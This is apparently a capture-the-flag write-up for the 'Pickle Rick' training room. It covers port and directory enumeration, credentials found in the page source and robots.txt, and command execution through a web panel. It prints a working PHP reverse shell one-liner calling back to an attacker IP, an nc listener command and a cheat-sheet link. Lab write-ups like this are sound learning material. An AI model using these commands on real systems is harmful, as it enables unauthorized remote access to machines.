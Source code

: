 # Pickle Rick

IP - 10.10.191.16

## Scanning and Enumeration

nmap scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d3:e5:84:36:c0:98:a2:63:04:01:cc:75:a9:d1:94:2a (RSA)
|   256 b9:37:a1:31:ab:af:e7:a3:1d:bf:32:39:67:00:b6:6b (ECDSA)
|_  256 b9:1d:36:7c:9f:a9:19:a6:be:34:f5:7c:97:0e:18:43 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|http-title: Rick is sup4r cool
| http-methods:
|  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

dirsearch:
```
[21:38:43] 403 -   277B - /.php

[21:38:59] 200 -    2KB - /assets/

[21:38:59] 301 -   313B - /assets  ->  http://10.10.191.16/assets/

[21:39:13] 200 -    1KB - /index.html

[21:39:16] 200 -   882B - /login.php

[21:39:26] 200 -    17B - /robots.txt
```
- Viewed HTML source code (ctrl + U) on picklerick.thm website and found Username: R1ckRul3s.
- Found password in 10.10.191.16/robots.txt - Wubbalubbadubdub
- Navigate to /login.php and used username R1ckRul3s and password Wubbalubbadubdub to log in.

## Exploit
Command Panel is vulnerable and allowing to use commands to get information. I used "ls -a" to list all files including hidden files and found Sup3rS3cretPickl3Ingred.txt. I was able to get the first ingredient by running - grep . -R

## Reverse Shell
- set Terminal to listen - ``` nc -nvlp 4444 ```
- Executed PHP reverse shell and gained access: 
```
php -r '$sock=fsockopen("10.6.41.41",4444);exec("/bin/sh -i <&3 >&3 2>&3");’
```
Cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet







